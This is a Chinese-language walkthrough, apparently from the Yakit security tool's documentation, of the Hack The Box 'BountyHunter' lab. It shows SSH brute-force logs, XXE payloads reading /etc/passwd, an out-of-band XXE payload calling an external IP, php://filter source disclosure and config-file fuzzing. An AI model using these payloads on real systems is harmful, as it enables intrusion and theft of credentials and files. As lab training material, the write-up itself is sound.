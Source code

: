 ```yaml
---
sidebar_position: 1
---
```

# Yakit & HTB: BountyHunter 从战场实况到武器化
>一份来自官方的 Yakit 实战案例


## 0x00 背景
当我们说单兵装备的时候，我们通常在说 “我们有什么功能？”，但是如何保证我们的功能是真的有效的？或者如何自我更新迭代，更新更好的插件，更优秀的贴近实战的功能？

虽然一些用户会无私地给我们一些正向的反馈，对于研发团队来说，这并不够，我们需要更加一手的新鲜的实战演练战场。与此同时，一些实战中的案例并不适合放在这些部分给大家做展示，

为此，我们选择 HTB 中的一系列战场，使用 Yakit 实现针对各种靶场的测试与渗透，从而体会我们的产品 “在攻防领域” 应该怎么做？

## 0x01 HTB-BountyHunter
我们选择一个看起来还比较贴近实战的靶场：HTB BountyHunter

![](/img/products/yakit/htb-bounty-hunter.png)

## 0x02 起手：确定攻击路径
大致观察之后，我们最直接的丢在 Yakit 中扫描端口开启插件跑跑看：

![](/img/products/yakit/htb-at-first.png)
![](/img/products/yakit/htb-at-first-1.png)

初步看了一下，22 端口爆破和 80 的普通 Web 应该是两个入口，爆破简单看了一下

```Groovy
"SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2\r\n"
[FAIL]: redis:\\-:root@10.129.95.166:6379
[FAIL]: mongodb:\\admin:root@10.129.95.166
[WARN] 2022-04-21 17:37:58 +0800 [default:ssh.go:86] dial ssh://10.129.95.166:22 failed: ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
[FAIL]: ssh:\\root:123456@10.129.95.166:22
[WARN] 2022-04-21 17:38:05 +0800 [default:ssh.go:86] dial ssh://10.129.95.166:22 failed: ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
[FAIL]: ssh:\\test:123456@10.129.95.166
[WARN] 2022-04-21 17:38:11 +0800 [default:ssh.go:86] dial ssh://10.129.95.166:22 failed: ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
[FAIL]: ssh:\\oracle:123456@10.129.95.166
```
一般这种情况爆破进去应该是不太可能了，入口应该还是在 Web，于是我们使用 MITM 劫持一些浏览器请求，抓包看一下历史记录，初步点点点大概看了一下，记录了一下操作流程如下：

<video
    src="https://yaklang.oss-cn-beijing.aliyuncs.com/video/yakit-mitm-hijack.mp4"
    loop={true} playsInline={true} controls={true} autoPlay={true} style={{width: 890}}
/>

当我们大致发现了可以测试的参数之后，我们可以尝试对这个包进行手动的测试看看：

1. 我们发现这个数据包的参数是 base64 编码后的结果，实际解开是一个 xml
2. 这个请求可被重放

![](/img/products/yakit/htb-xml.png)

## 0x03 XXE 漏洞检查
我们看到参数是 XML 的时候，马上反应过来这应该是一个 XXE 漏洞，那么其实非常简单地，我们应该写一个可以用来测试的脚本：

![](/img/products/yakit/htb-xxe.png)

为此，我们使用 `poc.HTTP` 可以快速编写针对一个数据包的检测发送与测试，其实相当于一个可编程和可自动化的 Web Fuzzer，实际代码不超过十行，复制 Payload 改一改就可以达到我们测试的目的。

我们使用上述脚本，可以做到一边修改明文 XML，一边写一些正则或者 Glob 规则来检查结果有啥敏感内容。

理所当然，我们应该尝试使用一些简单的方式来验证漏洞是否存在，比如说 XXE 常见回显 Payload 如下，我们可以挑选一些来自动验证：

```HTML
# 适用于能把 foo 标签回显出来的情况
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

# 随便针对一个 XML 实体中的实体进行注入，因为我们已经发现用户输入会被回显
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
        <bugreport>
        <title>123</title>
        <cwe> &xxe; </cwe>
        <cvss>123</cvss>
        <reward>123</reward>
```

我们尝试了以上两种方式，发现因为回显问题，只有第二种可以生效，那么我们就成功可以实现 XXE 的漏洞利用了:

![](/img/products/yakit/htb-xxe-1.png)

### 0x03.1 扩展：无文本回显
通过我们上一篇推文 《除了 DNSLog 之外还有别的选择吗？》我们知道，只要目标可以加在远程目标（满足 TCP 协议），就可以使用 TCP 通杀的反连检测来实现检测；

那么实际上，我们 XXE 的通用 Payload 构造十分简单，就不用再关心具体字段中有哪些内容需要展示回显之类的了。

```HTML
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
      <!ELEMENT abc ANY>
      <!ENTITY xxe SYSTEM "http://124.223.202.90:63783/">
    ]>
    <abc>&xxe;</abc>
```

![](/img/products/yakit/htb-xee-extend.png)

## 0x04 XXE + PHP Hack

![](/img/products/yakit/htb-xee-php.png)

我们读到了 `/etc/passwd` 发现，实际上 `www-data` 用户是存在的，说明服务器地址大概率可能没有改默认，所以尝试 `/var/www/html/index.php` 是很正常的操作。

1. 读文件的话，`file://` 协议会有限制
2. 由于网站通过 php 开发，所以我们下意识认为 php xml SYSTEM 应该支持 PHP 伪协议，所以我们可以通过 `php://filter/read=covert.base64-encode/resource=log_submit.php` 先包含一下

>注意 log_submit.php 是我们已知的 PHP 文件，就是表单地址

可以批量扫描 / 爆破的配置文件其实并不多，我们使用 Web Fuzzer 爆破目录之前，使用 Codec 生成一个字典，看下我们的规则是不是正确

![](/img/products/yakit/htb-xee-php-1.png)

所以我们可以通过 `{{list(db|database|config)}}`... 这种标签生成一个路径文件的组合，然后批量发包测试，测试结果如下

![](/img/products/yakit/htb-xee-php-2.png)

```Apache
GET /{{list(db|database|config|config/db|config/database|config/config)}}.{{list(php|inc)}} HTTP/1.1
Host: 10.129.95.166
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 221
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
```
理所当然，我们使用 db.php 作为要读取的配置文件

![](/img/products/yakit/htb-xee-php-3.png)

### 0x04.1 从源码发现一点线索
![](/img/products/yakit/htb-xee-code-clues.png)

其实这个网站也并没有数据库，本来想办法连数据库提权应该是不能了。碰巧爆破密码直接就出了结果

### 0x04.2 爆破密码

属实没啥办法了，随便跑一跑算了，打开爆破，把 `/etc/passwd` 中的感觉可以用的用户名和刚刚拿到的密码来跑跑看。不过运气比较好，跑了几组就出了密码

![](/img/products/yakit/htb-xee-blasting-code.png)

## 0x05 Yakit 表现复盘
这是一个非常 Easy 的靶场，不论是从思路还是利用难度来说都非常简单，我们在这个靶场测试的过程中，其实并没有用到其他的工具去辅助测试，只通过 Yakit 自身提供的功能，编写小的脚本就完成了整个简单流程：

<div align="center">
    <img src="/img/products/yakit/htb-joke.png" />
</div>

但是实际上，并不是没有提升空间：

### 0x05.1 Web Fuzzer 的强化与高级用法

实际我们编写的脚本也并不是特别复杂，仅仅是 Payload 的改动 + 测试而已：能否让 fuzz 标签支持更复杂的 Payload 编码逻辑，让不需要打开 Yak Runner，仅仅 Web Fuzzer 就能完成这个过程？

实际上，按理说我们 `{{url({{base64(<xml ... />)}})` 这样是最理想的，但是由于 fuzz 暂时无法支持编码嵌套，<span style={{background:"#fff67acc"}}>现在可用的替代方案是自己写一个 codec 插件来实现这个功能</span>

但是实际上在 Web Fuzzer 界面，要切换到另一个 Tab，然后写插件... 嗯...，那易用性会打很大的折扣。

如何解决这个问题呢？最理想的其实是类似 MITM “热加载” 模式，热加载 codec 代码，让流量自动经过 fuzz 标签调用我们的自定义函数。

>我很确信，这是 Web Fuzzer 的下一个很可靠的进化方向

### 0x05.2 端口扫描插件启示
其实在我们点击页面劫持网页内容之前，我们就可以看到端口扫描插件已经识别出这个表单了。但是由于表单不是标准的 submit 流程，是通过 JS 拼接了一个 XML 提交的后端接口，导致插件无法识别出参数和自动补充表单的内容。

![](/img/products/yakit/htb-plug-in-inspiration.png)
